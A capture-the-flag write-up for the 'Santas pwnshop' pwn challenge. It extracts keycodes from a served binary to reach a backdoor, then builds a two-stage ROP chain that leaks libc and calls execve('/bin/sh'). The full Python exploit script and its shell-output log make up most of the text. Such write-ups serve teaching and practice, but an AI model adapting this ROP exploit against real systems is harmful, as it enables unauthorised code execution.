 # Santas pwnshop - Pwn (300)

Santa is giving out an early XMAS-gift to all the good little hackers. Theres a secret backdoor to the PWNSHOP but its protected by a very paranoid lock that automatically changes keycodes often. If we could hack that, we could grab as many XMAS-gifts as we wanted!

Service: nc 18.205.93.120 1205

Download: [T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz](https://s3.amazonaws.com/advent2018/T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz) [(mirror)](./static/T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz)

## Finding the Backdoor

Connecting to the service, we see that we have two options: get a "gift" or "leave". Getting the gift is actually a base64-encoded and compressed version of the target service binary. Once we decompile this binary we see that its actually quite simple. The service has one hidden "backdoor" function which is accessible by choosing option "666". This backdoor function checks 16 "keycodes" as shown in the IDA pro disassembly below.

![pwnshop backdoor function](./images/pwnshop_backdoor.png)

It turns out these keycodes change each time you connect to the service and download the binary so we need to write an automated way of reading these out of the binary. Luckily, the keycodes are all at a fixed offset within the binary so its simple enough to compute that offset for all 16 values enter them in an automated program when we access the backdoor. Once we pass each of these checks, the program calls the function "win" as described in the next section.

## ROP

Once we start executing the "win" function, we have a buffer we can fill which will overwrite the return address and more, giving us an obvious ROP exploit technique. In this instance, the obvious answer is to setup the stack so that we call `execve("/bin/sh")`; however, both of those primitives (the address for execve and the shell string) are in libc which is randomized in memory. So before we attempt to call these addresses we need to find the location of libc in memory. I chose to do this by first sending back memory from an address I knew was in libc, and the calling "win" again to call `execve()`.

This means our first ROP payload looks like

```
buffer+0:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+4:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+8:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+12: 0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+16: 0x08048450             -- instruction for "jmp puts"
buffer+20: 0x08048703             -- "win" function address
buffer+24: 0x0804D00C             -- puts parameter 1: pointer to "read", located in libc
```

Sending this will send back a long string which starts with the address of "read", and then re-start the "win" function allowing us to send a second ROP payload. Using the returned "read" address we can compute the starting address of libc and from there the addresses of `execve()` and the string `"/bin/sh"`. With that we can construct our ROP chain as:

```
buffer+0:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+4:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+8:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+12: 0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+16: libc_start+0x000BE350  -- execve address
buffer+20: 0                      -- unused return 
buffer+24: libc_start+0x0017B8CF  -- execve parameter 1: pointer to "/bin/sh"
buffer+28: 0                      -- execve parameter 2: zero
buffer+32: 0                      -- execve parameter 3: zero
```

## Final Code

Putting all of this together, we have a python script which gets us to a shell and then `cat`'s the flag.

```python
import time
import sys
import base64
import struct
import gzip
import socket

def read_gift():
	with gzip.open('pwnshop_gift.gz','rb') as f:
		gift = f.read()
		f.close()

	with open('pwnshop_gift','wb') as f:
		f.write(gift)
		f.close()

	val0, = struct.unpack('<I',gift[0x7c0:0x7c4])
	val1, = struct.unpack('<I',gift[0x7d1:0x7d5])

	val3, = struct.unpack('<I',gift[0x7f0:0x7f4])
	val4, = struct.unpack('<I',gift[0x801:0x805])
	val5, = struct.unpack('<I',gift[0x812:0x816])
	
	val7, = struct.unpack('<I',gift[0x831:0x835])
	val8, = struct.unpack('<I',gift[0x842:0x846])
	val9, = struct.unpack('<I',gift[0x84f:0x853])
	
	val11, = struct.unpack('<I',gift[0x866:0x86a])
	val12, = struct.unpack('<I',gift[0x873:0x877])
	val13, = struct.unpack('<I',gift[0x880:0x884])
	
	val15, = struct.unpack('<I',gift[0x897:0x89b])
	val16, = struct.unpack('<I',gift[0x8aa:0x8ae])

	keycodes = [val0,val1,1,val3,val4,val5,1,val7,val8,val9,1,val11,val12,val13,1,val15,val16]
	print('keycodes:', keycodes)
	return keycodes

def readuntil(s,match):
	buf = s.recv(1024)
	while not buf.endswith(match):
		buf = buf + s.recv(1024)
	return buf

def solve(ipaddr='18.205.93.120'):

	s = socket.socket()
	s.settimeout(5)
	s.connect((ipaddr, 1205))

	buf = readuntil(s,b' > ')
	print('requesting gift')
	s.send(b'1\n')

	buf = readuntil(s,b' > ')
	print('parsing gift')
	i = buf.find(b')')
	b64_gift = buf[34:i]
	gift_zip = base64.b64decode(b''.join(b64_gift.strip().split()))
	with open('pwnshop_gift.gz','wb') as f:
		f.write(gift_zip)
		f.close()

	keycodes = read_gift()

	print('requesting backdoor')
	s.send(b'666\n')

	for i in range(16):
		buf = readuntil(s,b'Enter keycode %d: '%i)
		print('sending keycode %d:'%i, keycodes[i])
		s.send(b'%d\n'%keycodes[i])

	buf = readuntil(s,b'Enter new keycode: ')

	# 0x08048450 -> jmp _puts
	# 0x08048703 --> "win" function
	# 0x0804D00C --> read in got_plt
	ret_gadget = 0x080483da
	jmp_puts_addr = 0x08048450
	win_addr = 0x08048703
	read_got_plt_addr = 0x0804D00C

	rop = struct.pack('<IIIIIII',ret_gadget,ret_gadget,ret_gadget,ret_gadget,jmp_puts_addr,win_addr,read_got_plt_addr)

	print('sending rop1', rop)
	s.send(rop)
	buf = s.recv(4)
	read_addr, = struct.unpack('<I',buf[0:4])
	print('read address:',hex(read_addr))
	libc_start = read_addr - 0x000e5620
	print('libc_start:',hex(libc_start))

	readuntil(s,b'Enter new keycode: ')

	execve_addr = libc_start+0x000be350
	binsh_addr = libc_start+0x0017B8CF

	rop = struct.pack('<IIIIIIIII',ret_gadget,ret_gadget,ret_gadget,ret_gadget,execve_addr,0,binsh_addr,0,0)
	print('sending rop2', rop)
	s.send(rop)

	print('sleeping while shell starts ...')
	time.sleep(1)

	s.send(b'id\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ls -al\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'cat flag\n')
	print(s.recv(10240).decode('ascii'))

if __name__ == '__main__':
	solve()
```

Which gives the following output:

```
$ ./challenge5.py 
requesting gift
parsing gift
keycodes: [7455683, 8191530, 1, 5680401, 969923, 7844951, 1, 9920583, 4155052, 3925830, 1, 9772432, 3553144, 7816110, 1, 9849761, 2991524]
requesting backdoor
sending keycode 0: 7455683
sending keycode 1: 8191530
sending keycode 2: 1
sending keycode 3: 5680401
sending keycode 4: 969923
sending keycode 5: 7844951
sending keycode 6: 1
sending keycode 7: 9920583
sending keycode 8: 4155052
sending keycode 9: 3925830
sending keycode 10: 1
sending keycode 11: 9772432
sending keycode 12: 3553144
sending keycode 13: 7816110
sending keycode 14: 1
sending keycode 15: 9849761
sending rop1 b'\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08P\x84\x04\x08\x03\x87\x04\x08\x0c\xd0\x04\x08'
read address: 0xf7e03620
libc_start: 0xf7d1e000
sending rop2 b'\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08P\xc3\xdd\xf7\x00\x00\x00\x00\xcf\x98\xe9\xf7\x00\x00\x00\x00\x00\x00\x00\x00'
sleeping while shell starts ...
uid=999(ctf) gid=999(ctf) groups=999(ctf)

total 2364
drwxr-xr-x 1 root ctf     4096 Jan  6 18:12 .
drwxr-xr-x 1 root root    4096 Jan  6 18:12 ..
-rwxr-x--- 1 root ctf  2403329 Jan  6 15:46 chall
-r--r----- 1 root ctf       28 Jan  6 15:46 flag
-rwxr-x--- 1 root ctf       37 Jan  6 15:46 redir.sh

AOTW{s4nt4_l0v3s_BL4CKh4ts}
```
